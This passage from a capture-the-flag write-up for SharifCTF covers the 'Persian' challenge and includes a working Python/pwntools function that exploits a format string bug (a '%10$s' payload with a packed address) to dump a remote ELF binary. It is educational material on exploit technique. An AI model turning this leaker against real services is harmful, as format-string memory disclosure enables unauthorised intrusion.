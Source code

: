 ```python
x = slb[slb.find("SharifCTF{"):]
x = x[:(x.find("}") + 1)]
log.info("flag is:\n" + x)

vp.close()
```

Done.


## Write-Up Persian

This time we can only input two format strings before the program exits. This
was super annoying. There really wasn't anything in particular obvious on the
stack. A couple of things that looked like stack pointers and code pointers. I
tried reading out a couple of strings I found, but didn't find anything useful.
So I started leaked the whole ELF file from the address space. Since it's a
64-bit binary (observable by looking at `%p` modifier) we can start leaking at
`0x400000`. Also there isn't anything that will change between the runs in the
code segment so we can open as many connections as we want.

Unfortunately because every two format strings we have to open a new
connection, so leaking the ELF took ages. Also I had a couple of issues and it
took me quite a while to get a proper leak. In the end I managed to dump a half
broken ELF file, which was loadable in radare, but somehow lacked the names
of the imported functions.

```python
def fmtleaker(addr):
    log.debug("leaking addr 0x{:x}".format(addr))
    vp = None
    for i in range(3):
        try:
            vp = remote("ctf.sharif.edu", 54514, timeout=1)
            pl = "ABCD%10$sDCBA"
            pl += "\x00" * 3
            pl += p64(addr)
            if "\n" in pl:
                log.warning("newline in payload!")
                return None
            vp.sendline(pl)
            x = vp.recv()
            if x:
                f = x.find("ABCD") + 4
                l = x.find("DCBA")
                res = x[f:l]
                if res == "":
                    return "\x00"
                else:
                    return res

            return None
        except KeyboardInterrupt:
            raise
        except EOFError:
            log.debug("got EOF for leaking addr 0x{:x}".format(addr))
            pass
        except Exception:
            log.warning("got exception...", exc_info=sys.exc_info())
        finally:
            if vp:
                vp.close()
    return None


```